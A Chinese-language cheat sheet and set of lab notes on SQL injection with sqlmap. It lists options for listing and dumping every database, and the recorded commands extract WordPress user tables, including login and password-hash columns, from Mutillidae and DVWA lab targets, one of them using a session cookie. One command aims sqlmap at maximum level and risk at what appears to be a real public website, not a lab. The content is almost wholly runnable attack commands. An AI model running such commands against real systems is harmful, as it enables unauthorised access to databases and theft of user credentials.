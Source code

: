 > 常用查询命令

```mysql
--users  //获取全部用户
--current-user //获取当前用户
--dbs	//获取全部数据库
--current-db	//获取当前数据库
-D "database_name" --tables
-D "database_name" -T "table_name" --colun
--dump-all //整个数据库全部dump(拿)下来
--dump-all --exclude-sysdbs //排除系统库
-D "database_name" -T "table_name" --dump
-D "database_name" -T "table_name" -C "username, password" --dump
--batch //自动化完成!
```

> ==演示步骤==

 ![1](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903231351.png)

> ==实验用到的命令记录==

```mysql
#===============自动注入====================
#查询所有数据库  -p代表指定内容，减少无关信息查询量  --batch是批量的意思，不用手动去点确认了
sqlmap -u "http://192.168.44.138/mutillidae/index.php?page=user-info.php&username=zhuzhuxia&password=123456&user-info-php-submit-button=View+Account+Details"  --batch -p username --dbs

#查看所有数据库
sqlmap -u "http://alphaonenow.org/info.php?id=131" --batch --level=5 --risk=3 --dbs

#查询某个库里的某张表里的所有字段
sqlmap -u "http://192.168.44.138/mutillidae/index.php?page=user-info.php&username=zhuzhuxia&password=123456&user-info-php-submit-button=View+Account+Details"  --batch -p username  -D wordpress -T wp_users --columns

#将某个库里的某张表的数据全部下载下来（可以理解为查看表里的详细信息）
sqlmap -u "http://192.168.44.138/mutillidae/index.php?page=user-info.php&username=zhuzhuxia&password=123456&user-info-php-submit-button=View+Account+Details"  --batch -p username  -D wordpress -T wp_users --dump

#将某个表的一些字段下载下来
sqlmap -u "http://192.168.44.138/mutillidae/index.php?page=user-info.php&username=zhuzhuxia&password=123456&user-info-php-submit-button=View+Account+Details"  --batch -p username  -D wordpress -T wp_users -C "user_login,user_pass" --dump

#帮助命令  最后填写需要查的命令 比如 Proxy ，dis等
sqlmap -hh |grep dic

#=====对于一些需要登录的网页
#添加cookie参数就行了
sqlmap -u "http://192.168.44.138/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --batch --cookie="security=low; PHPSESSID=fbhulff2k2u8o65qvo9uujkrs4;" -p id
```
